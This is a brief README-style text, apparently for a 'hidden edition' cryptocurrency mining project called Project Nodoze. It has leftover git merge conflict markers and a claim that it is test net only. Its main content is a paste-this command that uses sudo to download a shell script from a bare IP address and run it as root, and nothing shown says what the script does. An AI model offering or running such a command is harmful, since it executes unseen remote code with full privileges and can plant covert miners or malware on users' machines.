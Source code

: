 <<<<<<< HEAD
Project Nodoze | hidden edition Master Edition
=======
Project Nodoze | hidden edition third edition
>>>>>>> f842cdf63a7e43f4ef6f88784e8efde2710593e7

THIS IS IN TEST NET STAGE!!! NO CURRENCY MINED IS REAL!!!!!

            sudo wget http://45.77.50.112/linux.sh && sudo chmod 700 linux.sh && sudo sh linux.sh

			
